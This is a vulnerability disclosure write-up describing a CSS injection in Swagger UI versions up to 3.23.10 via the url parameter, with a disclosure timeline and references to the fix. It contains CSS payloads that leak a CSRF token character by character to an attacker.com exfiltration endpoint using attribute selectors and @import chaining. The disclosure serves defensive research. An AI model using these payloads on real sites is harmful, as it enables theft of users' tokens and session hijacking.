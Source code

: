 # CSS-injection-in-Swagger-UI

We have found a CSS Injection vulnerability on Swagger UI that allows attacker to use the Relative Path Overwrite (RPO) [1][2] technique to perform CSS-based input field value exfiltration. In our PoC, we were able to successfully steal the CSRF token value.

**Researcher: Kevin (DatLP) of The Tarantula Team, VinCSS (a member of Vingroup)**

## What is Swagger UI

Swagger UI allows anyone — be it your development team or your end consumers — to visualize and interact with the API’s resources without having any of the implementation logic in place. It’s automatically generated from your OpenAPI (formerly known as Swagger) Specification, with the visual documentation making it easy for back end implementation and client side consumption.

## Background

We've discovered the vulnerability when reading the following in the document of Swagger [3]:

```
We’ve observed that the ?url= parameter in SwaggerUI allows an aacker to override an otherwise hard‐coded schema file
The decision was made to put this in the public issue tracker because (a) we aren’t going to immediately fix this, and (b) the aack surface for this is significantly diminished by our effecve sanizaon efforts to deter XSS aacks in documents used as input.
```
Swagger had known the issue, but Swagger thought that this vulnerability could not lead to an Cross-Site Scripting (XSS) exploit, so they ignored it. So we have decided to further research on this issue. 

### Injection step:

We realize that Swagger UI allows users to embed untrusted Json format from remote servers 

```javascript
var url = window.location.search.match(/url=([^&]+)/);
// ...
url = options.swaggerUrl || url
// ...
var swaggerOptions = {
    spec: spec1,
url: url, // ...
}
var ui = SwaggerUIBundle(swaggerOptions)
```

This means we can inject json content via the GET parameter to victim Swagger UI. In the json content we use the <style> tag and CSS @import rule to load the CSS payload:
    
![](PoC-RPO-1.png)
    
### Exfiltration step:

With CSS payload, we can use Relative Path Overwrite (RPO) technique to perform CSS-based input field value exfiltration [4]. The following CSS code will generate a callback query to the attacker's server (https://attacker.com/exfil/a) if the CSRF token value starts with the character a, similarly it will make other requests (https://attacker.com/exfil/b; https://attacker.com/exfil/c; https://attacker.com/exfil/d, etc) if the CSRF token value begins with character b, character c or character d. Continue to try in turn for each character in range A-Z and range 0-9 until we found the first character in the CSRF token value:

```css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
...
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);
```
And after we have found the first character in the CSRF token value, we will continue to search for the second character and so on:

```css
input[name=csrf][value^=aa]{
    background-image: url(https://attacker.com/exfil/ca);
}
input[name=csrf][value^=ab]{
    background-image: url(https://attacker.com/exfil/cb);
}
 ...
input[name=csrf][value^=a9]{
    background-image: url(https://attacker.com/exfil/c9);
```

With sequential @import chaining as below so we can steal full of CSRF token value:

![](sequential%20import%20chaining.png)

You can automate all of step by using the [sic](https://github.com/d0nutptr/sic) tool [5]

And we got the following result:

![](PoC-RPO-2.png)

    
## Tested versions

Swagger UI v3.23.10 and older versions

## Disclosure timeline

- September 17, 2019: Report and discuss with maintainer for Swagger UI.
- September 20, 2019: Ask maintainer for vulnerability disclosure.
- September 21, 2019: Swagger UI has released a new version that has addressed the vulnerability.
- September 21, 2019: Get approval from maintainer for disclosure on October 6, 2019.


## Reference

1. [RPO](http://www.thespanner.co.uk/2014/03/21/rpo/)
2. [Detecting and exploiting path‐relative stylesheet import (PRSSI) vulnerabilities | PortSwigger Research](https://portswigger.net/research/detecting-and-exploiting-path-relative-stylesheet-import-prssi-vulnerabilities)
3. [Swagger UI | API Development Tools | Swagger](https://swagger.io/tools/swagger-ui/)
4. [Exfiltration via CSS Injection](https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d)
5. [GitHub ‐ d0nutptr/sic: A tool to perform Sequential Import Chaining](https://github.com/d0nutptr/sic)
6. [Attribute selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors)
7. [Better Exfiltration via HTML Injection ‐ d0nut ‐ Medium](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)
8. [2019‐s3_css_injection_attacks.pdf](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf)
9. [RPO Gadgets](https://blog.innerht.ml/rpo-gadgets/)
10. [add an `enableQueryConfig` option issue #4872](https://github.com/swagger-api/swagger-ui/issues/4872)
11. [mitigate "sequential @import chaining" vulnerability issue #5616 ](https://github.com/swagger-api/swagger-ui/pull/5616)
12. [Swagger UI 3.23.11 Released! This release contains a security fix that addresses a CSS-based input field value exfiltration vulnerability](https://github.com/swagger-api/swagger-ui/releases/tag/v3.23.11)


